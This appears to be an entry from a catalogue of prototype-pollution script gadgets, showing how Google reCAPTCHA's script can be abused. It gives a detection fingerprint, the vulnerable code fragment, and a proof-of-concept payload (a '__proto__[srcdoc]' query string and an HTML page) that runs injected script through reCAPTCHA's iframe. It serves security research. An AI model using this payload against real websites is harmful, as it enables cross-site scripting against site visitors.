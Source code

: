 ## Google reCAPTCHA

URL: https://www.google.com/recaptcha/about/

### JS Fingerprint
```
return (typeof recaptcha !== 'undefined')
```

### Vulnerable code fragment
https://www.gstatic.com/recaptcha/releases/Y5tQ3lKwn1XL5hGgLz1kR4-1/recaptcha__en.js
```js
return m - 7 & 6 || (d.F = l[25](5, Z, 0, {
    src: I,
    tabindex: K,
    width: String(U.width),
    height: String(U.height),
    role: "presentation",
    name: E + d.Y
  }),
  x.appendChild(d.F))
```

### PoC

```
?__proto__[srcdoc][]=<script>alert(1)</script>
```

```html
<script src="https://www.google.com/recaptcha/api.js" async defer></script>
<script>
  Object.prototype.srcdoc=['<script>alert(1)<\/script>']
</script>
<div class="g-recaptcha" data-sitekey="your-site-key"/>
```
